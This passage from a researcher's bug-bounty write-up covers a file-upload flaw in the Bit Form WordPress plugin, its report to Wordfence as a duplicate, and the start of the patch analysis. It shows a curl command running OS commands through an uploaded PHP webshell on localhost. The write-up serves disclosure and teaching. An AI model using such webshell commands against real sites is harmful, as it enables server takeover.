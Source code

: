 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240821205417.png)

Finally, we should be able to execute OS commands in our uploaded PHP webshell file!

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-upload)-[2024.08.21|20:51:09(HKT)]
└> curl --get http://localhost/wp-content/uploads/bitforms/icons/webshell.php --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice!!

Unfortunately, this vulnerability is out-of-scope, as **it requires administrator+ privilege** to exploit it. I tried to find all possible ways to exploit it in an unauthenticated/low privilege users, but no luck. After writing the Proof-of-Concept script, I reported this vulnerability to Wordfence in July 3rd, 2024 at 5:22 PM (UTC+8).

After 6 hours of reporting, I was notified by Wordfence that this vulnerability had been found by researcher István Márton and treated this report as duplicate. Ah, darn it! Let's move on and keep finding even more vulnerabilities!

### The Patch

To fix this vulnerability is very straight forward. Just validate the remote fetched resource's extension is an image and MIME type is `image/.*`.

Based on the version 2.13.4 [revision log](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3114814%40bit-form%2Ftrunk%2Fincludes%2FAdmin%2FAdminAjax.php&old=3109667%40bit-form%2Ftrunk%2Fincludes%2FAdmin%2FAdminAjax.php&sfp_email=&sfph_mail=), we can see now the method is **validating the extension and MIME type** of the remote resource via WordPress function `wp_check_filetype`:
